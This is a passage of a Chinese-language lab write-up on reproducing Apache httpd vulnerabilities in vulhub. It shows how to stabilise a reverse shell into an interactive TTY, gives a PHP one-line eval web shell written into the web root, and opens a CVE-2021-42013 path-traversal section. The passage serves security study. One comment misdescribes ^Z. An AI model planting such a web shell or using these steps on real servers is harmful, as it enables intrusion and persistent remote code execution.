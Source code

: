 ##### 4.升级交互式shell

```
bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo
fg
reset

export SHELL="bash"
```



```
[root@localhost ~]# bash			
#作用：把使用的shell切换到bash。

[root@localhost ~]# python -c 'import pty; pty.spawn("/bin/bash")'
#作用：使用Python来创建一个新的终端并在这个终端中启动bash。

[root@localhost ~]# ^Z
#作用：改变终端的模式，使其进入“原始”模式，并关闭回显。

root@kali64:~# stty raw -echo
stty raw：将终端从"cooked"模式切换到"raw"模式。在"cooked"模式下，终端会处理例如行编辑、回显等特性。而在"raw"模式下，这些特性都是禁用的，数据会直接从键盘传到程序，没有任何处理。

root@kali64:~# fg
#作用：将之前已经发送到后台的进程（在这里是你的反弹shell）带回到前台。

[root@localhost ~]# reset
#作用：重置和初始化终端。

[root@localhost ~]# export SHELL="bash"
#作用：设置使用的shell为bash
```

##### 5.尝试一句话木马

```
echo '<?php @eval($_POST["xxx"]);?>' > /usr/local/apache2/htdocs/xxx.php
```

### 4、CVE-2021-42013 漏洞复现

#### 针对版本

`Apache httpd Server 2.4.50` 版本

对`CVE-2021-41773`的**修复**可以避免一次url编码导致的路径穿越， 但是由于在请求处理过程中，还会**对参数再次进行解码**，仍然会导致路径穿越。

#### 1、启动

```
cd /root/vulhub/httpd/CVE-2021-42013
docker-compose up -d
```
